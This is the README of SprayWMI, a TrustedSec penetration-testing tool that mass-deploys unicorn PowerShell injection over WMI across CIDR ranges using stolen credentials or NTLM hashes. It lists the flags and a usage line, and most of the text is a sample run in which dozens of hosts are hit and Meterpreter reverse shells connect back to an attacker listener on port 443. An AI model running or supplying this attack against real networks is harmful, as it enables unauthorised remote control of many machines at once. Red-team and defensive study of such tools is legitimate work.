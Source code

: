 SprayWMI is a method for mass spraying unicorn powershell injection to CIDR notations.

Written by David Kennedy @TrustedSec
Special thanks: Justin Elze and Larry Spohn

Initial Blog: https://www.trustedsec.com/june-2015/no_psexec_needed/ if you have trouble with this on 64 bit - try:

dpkg --add-architecture i386 && apt-get update && apt-get install libpam0g:i386 && apt-get install libpopt0:i386

Flag descriptions:

DOMAIN - domain you are attacking - if its local, just specify workgroup
USERNAME - username to authenticate on the remote Windows system
PASSWORD - password or password hash lm:ntlm to use on the remote Windows system
CIDR_RANGE,CIDR_RANGE or ips.txt - you can specify a single ip, a CIDR range (192.168.1.1/24) or multiple CIDRs such as 192.168.1.1/24,192.168.2.1/24. You can also specify a file (ex: file.txt) which has single IP addresses on a new line. 
METASPLOIT_PAYLOAD - this is the payload you want to use example: windows/meterpreter/reverse_tcp
REVERSE_SHELL_IP - this is the IP address of your attacker machine that you want to create a listener or use an already established listener
REVERSE_SHELL_PORT - port to connect back on for the reverse
OPTIONAL: NO - specify no if you do not want to create a listener - this is useful if you already have a listener established. If you do not specify a value here, it will automatically create a listener for you.

Usage: python spraywmi.py <domain> <username> <password or hash lm:ntlm> <cidr_range,cidr_range or ips.txt> <metasploit_payload> <reverse_shell_ip> <reverse_shell_port> <optional: no>

Below is an example of output from spraywmi:

root@stronghold:/home/relik# python spraywmi.py TS kennedy-test complexP255w0rd! 192.168.90.1/24,192.168.0.1/24,192.168.59.1/24,192.168.96.1/24,192.168.1.1/24 windows/meterpreter/reverse_tcp 192.168.47.24 443
[*] Generating shellcode through unicorn, could take a few seconds...
[*] Launching the listener in the background...
[*] Waiting for the listener to start first before we continue forward...
[*] Be patient, Metaploit takes a little bit to start...
[*] Sweeping network for ports that are open first, then moving through... Be patient.
[*] Launching WMI spray against IP: 192.168.90.1 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.2 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.7 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.11 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.14 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.16 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.18 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.25 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.30 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.37 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.38 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.39 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.41 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.46 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.52 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.53 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.54 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.55 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.58 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.63 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.64 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.101 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.102 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.106 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.107 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.113 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.119 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.151 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.158 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.159 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.171 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.174 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.175 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.176 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.183 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.184 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.187 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.197 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.199 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.203 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.204 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.208 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.216 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.223 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.225 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.227 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.228 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.231 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.237 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.240 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.244 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.248 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.90.252 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.1 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.2 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.3 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.4 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.0.92 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.3 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.4 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.11 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.12 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.20 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.21 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.22 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.23 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.96.242 - you should have a shell in the background. Once finished, shell will spawn
[*] Launching WMI spray against IP: 192.168.1.13 - you should have a shell in the background. Once finished, shell will spawn
[*] Spraying is still happening in the background, shells should arrive as they complete.
[*] Interacting with Metasploit...

msf exploit(handler) > 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.174
[*] Meterpreter session 1 opened (192.168.47.24:443 -> 192.168.90.174:49868) at 2015-10-13 04:33:55 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.203
[*] Meterpreter session 2 opened (192.168.47.24:443 -> 192.168.90.203:51333) at 2015-10-13 04:33:59 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.184
[*] Meterpreter session 3 opened (192.168.47.24:443 -> 192.168.90.184:61218) at 2015-10-13 04:34:02 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.204
[*] Meterpreter session 4 opened (192.168.47.24:443 -> 192.168.90.204:54219) at 2015-10-13 04:34:06 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.175
[*] Meterpreter session 5 opened (192.168.47.24:443 -> 192.168.90.175:54210) at 2015-10-13 04:34:10 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.16
[*] Meterpreter session 6 opened (192.168.47.24:443 -> 192.168.90.16:56657) at 2015-10-13 04:34:14 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.96.242
[*] Meterpreter session 7 opened (192.168.47.24:443 -> 192.168.96.242:49504) at 2015-10-13 04:34:18 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.183
[*] Meterpreter session 8 opened (192.168.47.24:443 -> 192.168.90.183:56926) at 2015-10-13 04:34:28 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.248
[*] Meterpreter session 9 opened (192.168.47.24:443 -> 192.168.90.248:53657) at 2015-10-13 04:34:31 -0400
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (885836 bytes) to 192.168.90.39
[*] Meterpreter session 10 opened (192.168.47.24:443 -> 192.168.90.39:60451) at 2015-10-13 04:34:35 -0400
[*] Encoded stage with x86/shikata_ga_nai
